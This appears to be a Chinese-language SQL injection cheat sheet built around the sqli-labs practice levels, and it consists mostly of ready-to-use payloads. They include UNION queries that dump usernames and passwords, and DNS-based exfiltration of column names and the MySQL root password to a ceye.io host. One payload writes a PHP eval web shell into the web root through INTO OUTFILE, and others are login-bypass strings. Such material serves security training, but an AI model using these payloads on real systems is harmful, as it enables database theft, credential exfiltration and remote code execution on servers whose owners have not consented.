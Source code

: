   - union select 1,(select group_concat(username) from security.users limit 0,1),3 

- 查询某一个表的字段名发送到ceye

  - union select 1,(select load_file(concat('\\\\',substr((select column_name from information_schema.columns where table_name='users' and table_schema='security' limit 1),1,41),'.mysql.ip.port.38ljf2.ceye.io\\abc')))--+

#### 猜解账号密码

- outfile文件注入

  - union select 1,'<?php @eval($_POST[360]);?>' into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\Less-8\\3.php'--+
  - into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\Less-13\\1.txt'

- 查root密码ceye代码

  127.0.0.1/Less-1/?id=1' union SELECT 1,(LOAD_FILE(CONCAT('\\\\',mid((SELECT password FROM mysql.user WHERE user='root' LIMIT 1),2,41),'.mysql.ip.port.38ljf2.ceye.io\\abc'))),3--+

- bug   

  uname=1') or 1=1 into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\Less-13\\1.txt';--+

  这个文件里会有所有的用户名和密码

- 查询数据

  union select 1,(select 1 from (select count(*),concat((select(select(select distinct concat(username,password) from users limit 0,1))from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

#### 绕过登陆验证

- admin' --
- admin' #
- admin'/*
- ' or 1=1--
- ' or 1=1#
- ' or 1=1/*
- ') or '1'='1--
- ') or ('1'='1--

#### SQL注入常见函数

- group_concat函数   可以把查询的内容组合成一个字符串

- load_file(file name )  读取文件并将文件按字符串返回

- left（string，length）返回最左边指定的字符数：
  left（database（），1）>'s'  (猜名字)

- length（）判断长度
  length（database（）>5 

- substr（a，b，c）从字符串a中截取 b到c长度

- ascii（）将某个字符转为ascii值
